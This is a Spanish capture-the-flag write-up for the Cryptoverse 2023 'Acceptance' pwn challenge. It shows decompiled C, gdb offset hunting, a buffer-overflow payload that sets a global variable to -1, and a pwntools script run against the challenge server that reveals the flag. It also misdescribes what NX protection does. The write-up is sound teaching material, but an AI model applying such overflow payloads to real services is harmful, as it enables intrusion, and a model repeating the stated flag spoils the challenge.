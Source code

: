 ```yaml
---
author: naibu3
---
```


# Acceptance - cyptoverse

Es el reto *easy* de la categoría *[pwn](obsidian://open?vault=hacking_notes&file=pwn%2FIntroduction%20to%20pwn)* del *cryptoverse 2023*. La descriptción del reto es:


**Pwn/Acceptance**

Easy - 95 solves / 323 points

I want to go out but I need to ask my mom first. Help me guys!

`nc 20.169.252.240 4000`

Además nos dan un binario llamado `acceptance`.

----

# Reconocimiento

Comenzamos lanzando [[checksec]] y `file`:

```bash
file acceptance
```
```file
acceptance: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=75881c0c4011726772f5c71b56300328b383bf7b, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec acceptance
```
```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Vemos que se trata de un binario de 64-bits (`LSB`), y que tiene habilitada la protección *NX*, sin embargo no hay de qué preocuparse, ya que como el binario debemos explotarlo en un servidor, esta protección evita que alguien pueda acceder maliciosamente al mismo.

Si tratamos de ejecutarlo, veremos que nos pide ayuda para escaparse sin permiso de su madre. Si introducimos cualquier cosa, por ejemplo `hola`, nos da un mensaje de *error*:

```acceptance
I wanna go out but I need mom's permisison.
Help him: hola
Arg! Why don't you help me :((
```

Vamos a ver si el programa se rompe al introducir muchos carácteres:

```acceptance
I wanna go out but I need mom's permisison.
Help him: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
You ask a lot and she suspect me :((
```

Parece que el mensaje de error ha cambiado. Vamos a intentar descompilar el código con [[ghidra]]:

```c
undefined8 print_flag(void)
{
  uint *puVar1;
  undefined local_38 [44];
  int local_c;
  
  if (accept < 1) {
    if (accept == -1) {
      local_c = open("/home/me/flag.txt",0);
      if (local_c == -1) {
        puVar1 = (uint *)__errno_location();
        fprintf(stderr,"Error num %d\n",(ulong)*puVar1);
      }
      else {
        read(local_c,local_38,0x22);
        close(local_c);
        write(1,local_38,0x22);
        putchar(10);
      }
    }
    else {
      puts("Nah, You are a liar!");
    }
  }
  else {
    puts("You ask a lot and she suspect me :((");
  }
  return 0;
}
```
```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  init(param_1);
  puts("I wanna go out but I need mom\'s permisison.");
  printf("Help him: ");
  read(0,say,0x24);
  if (accept == 0) {
    puts("Arg! Why don\'t you help me :((");
  }
  else {
    print_flag();
  }
  return 0;
}
```

Vemos que hay una función `print_flag` además de `main`, y que sólo se llama si la variable `accept` es distinta de 0. Como el segundo output que hemos recibido es de la función `print_flag`, podemos pensar que al sobrepasar el tamaño de la variable `say`, hemos sobreescrito el valor de `accept`, llamando a `print_flag`.

### Prueba con gdb-pwndbg

Ahora, con [[gdb]]-[[pwndbg]] y python2, vamos a comprobar si nuestra teoría es cierta. Para ello, debemos encontrar a partir de qué número de carácteres se sobreescribe `accept`.

Si descompilamos `print_flag`, podemos ver la dirección de `accept`:

```gdb-pwndbg
disassemble print_flag
```
```gdb-pwndbg
0x00000000004011fd <+8>:	mov    eax,DWORD PTR [rip+0x2ecd]        # 0x4040d0 <accept>
```

En gdb-pwndbg utilizamos `cyclic` para generar una secuencia de letras. Establecemos un *break point* en `print_flag` y ejecutamos:

```gdb-pwndbg
cyclic 100
```
```cyclic
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

```gdb-pwndbg
break print_flag
```

```gdb-pwndbg
run
```
```acceptance
I wanna go out but I need mom's permisison.
Help him: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Una vez detenidos en el *break point*, podemos ver el valor de `accept` con:

```gdb-pwndbg
x 0x4040d0    #Direccion de accept
```
```0x4040d0
0x4040d0 <accept>:	0x61616165
```

Si decodificamos ese valor, corresponde a `aaae`. Debemos tener en cuenta que como es *LSB* o *little-endian*, está al revés (los bits menos significativos a la izquierda). Por lo que dentro de la cadena de antes los digitos correspondientes a `accept` serían:

```
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaEAAAaaaa
```

Es decir 32 bits de *offset*, o de desplazamiento hasta `accept`. Vamos a probar a generar una cadena con python2:

```bash
python2 -c 'print 32*"a" + "BBBB"'
```
```payload
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB
```

Si repetimos el procedimiento anterior pasando dicho payload, `accept` contiene:

```gdb-pwndbg
0x4040d0 <accept>:	0x42424242
```

Que si lo decodificamos es `BBBB`.


# Explotación (en local)

Como vimos al descompilar el código, para que se imprima la flag, `accept` debe valer `-1`. En 4 digitos hexadecimales sería `0xffffffff`, como no podemos copiar y pegar carácteres hexadecimales (por problemas de conversión), vamos a generar el payload con python2:

```bash
python2 -c 'print 32*"a" + "\xff\xff\xff\xff"' > payload
```
> Es la misma línea de antes pasando -1 en hexadecimal y redirigiendo la salida a un fichero.

Si probamos a ejecutar, debería salir algo así:

```bash
./acceptance < payload
```
```acceptance
I wanna go out but I need mom's permisison.
Help him: Error num 2
```

Esto se debe a que está tratando de listar el fichero `/home/me/flag.txt` pero no existe en nuestro equipo. Ya hemos conseguido resolver el reto en local!


# Explotación (server)

Como el binario corre en un servidor debemos explotarlo ahí para recuperar la flag. Todo el proceso lo haremos mediante un script en python3 con [[pwntools]]:

```python
#!/bin/python3

from pwn import *   # Import pwntools

nc = remote('20.169.252.240', 4000)   # Conexion con el server

line = nc.recvline()   # "I wanna go out but I need mom's permisison."
print(line)

nc.sendlineafter(b':', b'a'*32 + p64(0xffffffff))   # After "Help him:" sends payload (32*a + "-1") encoded 64-bit hex

print(nc.recvall().decode())   # Prints flag, decode is to remove b''

nc.close()   # Closes connection
```

Al ejecutarlo debería devolver:

```bash
./script.py
```
```acceptance
[+] Opening connection to 20.169.252.240 on port 4000: Done
b"I wanna go out but I need mom's permisison.\n"
[+] Receiving all data: Done (35B)
[*] Closed connection to 20.169.252.240 port 4000
 cvctf{Y34h_1_c4N_G0_n0w_tH4nK_y4u}
```

Enhorabuena! Has resuelto el reto!